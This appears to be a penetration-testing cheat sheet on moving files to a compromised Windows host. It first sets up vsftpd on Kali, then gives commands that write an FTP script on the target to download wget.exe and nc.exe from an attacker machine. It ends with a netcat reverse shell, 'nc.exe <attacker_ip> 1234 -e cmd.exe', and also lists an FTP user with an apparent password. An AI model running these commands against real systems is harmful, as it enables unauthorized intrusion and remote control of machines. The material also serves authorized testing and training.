 !!! info ""

    ### vsftpd

    #### Installing vsftpd

    ```bash
    sudo apt-get install vsftpd
    sudo nano /etc/vsftpd.conf
    ```

    locate **write_enable=YES** and remove the **#** infront of it and save the file changes.

    #### Restart vsftpd  

    ```bash
    sudo systemctl restart vsftpd
    ```

    #### purging vsftpd

    ```bash
    sudo apt purge vsftpd
    ```


!!! info ""

    #### another way

    ##### Set up a ftp downloading script on the target machine

    ```bash
    echo open IP 21 > ftp.txt
    echo USER acknak>> ftp.txt
    echo jLQRZy4gyLhmMqz2whTw>> ftp.txt
    echo ftp >> ftp.txt
    echo bin >> ftp.txt
    echo GET wget.exe >> ftp.txt
    echo bye >> ftp.txt
    ```

    ##### Download the prepared file

    ```bash
    ftp -v -n -s:ftp.txt
    ```

    ##### Start tftp server on Kali

    ```bash
    aftpd start
    ```

    ##### Transfer files from Kali to Windows (from windows terminal)

    ```bash
    tftp -I IPADDRESS GET nameoffile.exe
    ```

    ##### You can have a shell using this

    ```bash
    echo open <attacker_ip> 21> ftp.txt
    echo USER offsec>> ftp.txt
    echo ftp>> ftp.txt
    echo bin >> ftp.txt
    echo GET nc.exe >> ftp.txt
    echo bye >> ftp.txt
    ftp -v -n -s:ftp.txt
    nc.exe <attacker_ip> 1234 -e cmd.exe
    ```
